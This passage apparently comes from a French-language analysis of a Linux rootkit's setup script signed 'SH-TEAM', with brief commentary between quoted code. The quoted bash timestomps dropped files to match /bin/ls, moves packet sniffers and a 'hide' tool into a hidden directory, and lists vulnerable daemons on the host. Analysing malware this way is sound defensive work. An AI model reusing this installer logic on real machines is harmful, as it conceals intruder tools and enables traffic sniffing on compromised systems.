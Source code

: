 ```bash
#if [ ! -f /usr/bin/pico ]; then
#  touch -acmr /bin/ls ./pico
#  chmod 744 ./pico
#  mv ./pico /usr/bin/pico
#fi
```

Pour une fois, je suis d'accord. `Pico` ça craint ! Utilisez `Vim` !

```bash
touch -acmr /bin/ls $BASEDIR/utilz
touch -acmr /bin/ls $BASEDIR/utilz/*
mv $BASEDIR/utilz $HOMEDIR/

echo "${DCYN}[${WHI}sh${DCYN}]# : mirk/synscan/others... moved ${RES}"

echo "${DCYN}[${WHI}sh${DCYN}]# [Moving our files...] ${RES}"

mkdir $HOMEDIR/.sniff
mv $BASEDIR/bin/shsniff $HOMEDIR/.sniff/shsniff
mv $BASEDIR/bin/shp $HOMEDIR/.sniff/shp
mv $BASEDIR/bin/shsb $HOMEDIR/shsb
mv $BASEDIR/bin/hide $HOMEDIR/hide

touch -acmr /bin/ls $HOMEDIR/.sniff/shsniff
touch -acmr /bin/ls $HOMEDIR/.sniff/shp
touch -acmr /bin/ls $HOMEDIR/shsb
touch -acmr /bin/ls $HOMEDIR/hide

chmod +x $HOMEDIR/.sniff/*
chmod +x $HOMEDIR/shsb
chmod +x $HOMEDIR/hide

echo "${DCYN}[${WHI}sh${DCYN}]# : sniff/parse/sauber/hide moved ${RES}"
echo "${DCYN}[${WHI}sh${DCYN}]# [Modifying system settings to suite our needs] ${RES}"
```

Le `setup` place quelques outils qui étaient dans `utilz.tgz`. On y retrouve d'autres programmes signés `SH-TEAM`.

```bash
# CHECKING FOR VULN DAEMONS
# JUST WARNING NOT PATCHING HeH
echo "${DCYN}[${WHI}sh${DCYN}]# Checking for vuln-daemons ...  ${RES}"

ps aux > /tmp/.procs

if [ "`cat /tmp/.procs | grep named`" ]; then
  echo "${RED}[${WHI}sh${RED}]# NAMED found - patch it bitch !!!!  ${RES}"
fi

if [ -f /usr/sbin/wu.ftpd ]; then
  echo "${RED}[${WHI}sh${RED}]# WU-FTPD found - patch it bitch !!!!  ${RES}"
fi

if [ "`cat /tmp/.procs | grep smbd`" ]; then
  echo "${RED}[${WHI}sh${RED}]# SAMBA found - patch it bitch !!!!  ${RES}"
fi

if [ "`cat /tmp/.procs | grep rpc.statd`" ]; then
  echo "${RED}[${WHI}sh${RED}]# RPC.STATD found - patch it bitch !!!! ${RES}"
fi

rm -rf /tmp/.procs
netstat -natp > /tmp/.stats
```